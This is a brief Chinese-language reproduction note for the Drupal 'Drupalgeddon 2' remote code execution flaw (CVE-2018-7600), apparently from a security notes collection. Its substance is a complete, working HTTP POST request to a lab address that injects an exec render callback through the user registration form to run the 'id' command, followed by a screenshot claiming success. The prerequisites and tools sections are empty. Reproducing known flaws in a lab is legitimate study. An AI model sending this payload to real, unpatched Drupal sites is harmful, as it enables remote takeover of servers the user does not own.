 # Drupal Drupalgeddon 2 远程代码执行漏洞（CVE-2018-7600）

> 漏洞说明

Drupal 是一款用量庞大的CMS，其6/7/8版本的Form API中存在一处远程代码执行漏洞。



> 前提条件



> 利用工具



> 漏洞复现

搭建环境，构造请求包

```http
POST http://192.168.40.77:8080/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: 192.168.40.77:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id

```

成功执行命令id

![image-20230101234404878](../img/Drupal_CVE-2018-7600/image-20230101234404878.png)